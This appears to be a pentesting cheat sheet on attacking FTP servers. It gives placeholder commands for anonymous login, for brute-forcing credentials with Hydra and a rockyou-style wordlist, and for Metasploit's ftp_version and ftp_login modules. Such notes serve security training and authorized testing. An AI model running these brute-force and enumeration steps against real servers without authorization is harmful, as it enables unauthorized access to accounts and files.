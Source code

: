 **FTP** (File Transfer Protocol) is a standard network protocol used to transfer files between a client and a server over a network. 

## Anonymous access
**FTP** allows users to connect to an FTP server without a specific username or password. The user typically logs in using the username **"anonymous"**. This provides a convenient way to access publicly available files, like software or documentation, but it also poses several security risks if not properly controlled.

```bash
ftp <target_ip>
# Once Connected
username: Anonymous
password: Anonymous
```

## Brute Force Attack with Hydra
**Hydra** is a powerful password-cracking tool used for conducting **brute-force attacks** on various services, including FTP.

| Option                            | Description                                                                                                      |
|-----------------------------------|------------------------------------------------------------------------------------------------------------------|
| `-l <username>`                   | Specifies the **username** to use in the attack. You can use a single username or use a list with `-L <username_list>`. |
| `-P <password_file>`              | Specifies the **password list** (dictionary) to use for the attack. You can provide a custom list or use default wordlists like `rockyou.txt`. |
| `ftp://<target_ip>`               | Specifies the target FTP server's IP address.                                                                   |

```bash
hydra -l <username> -P <password_file> ftp://<target_ip>
```

## Enumeration using Metasploit
#### Version Enumeration
1. **Search for FTP Auxiliary Modules**

To begin with, we use the **search** command in Metasploit to find auxiliary modules related to FTP enumeration.

```bash
msf6 > search type:auxiliary name:ftp
```

This search command filters auxiliary modules that are related to FTP. It will return a list of available FTP-related modules, including the `ftp_version` module, which is commonly used to determine the version of an FTP server.

 2. **Using the `ftp_version` Module**

The **`ftp_version`** auxiliary module is used to gather information about the FTP server, particularly the FTP server's **version**. This can help in identifying potential vulnerabilities associated with specific versions of FTP software.

```bash
msf6 > use auxiliary/scanner/ftp/ftp_version
```

#### Login Brute Force Attack
In Metasploit, this type of attack can be performed using the `ftp_login` auxiliary module (or similar modules for different protocols). 

1.  **Search and select  the FTP Brute-Force Module**

Use the `search` command to find the `ftp_login` module or any other module related to brute-forcing FTP logins:

```bash
msf6 > search type:auxiliary name:ftp
msf6 > use auxiliary/scanner/ftp/ftp_login
```

2.  **Configure the Attack**

Configure the exploit parameters.

```bash
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS <target_ip>

msf6 auxiliary(scanner/ftp/ftp_login) > set RPORT <target_port>

msf6 auxiliary(scanner/ftp/ftp_login) > set USER_FILE /path/to/usernames.txt

msf6 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE /path/to/passwords.txt

msf6 auxiliary(scanner/ftp/ftp_login) > run
```

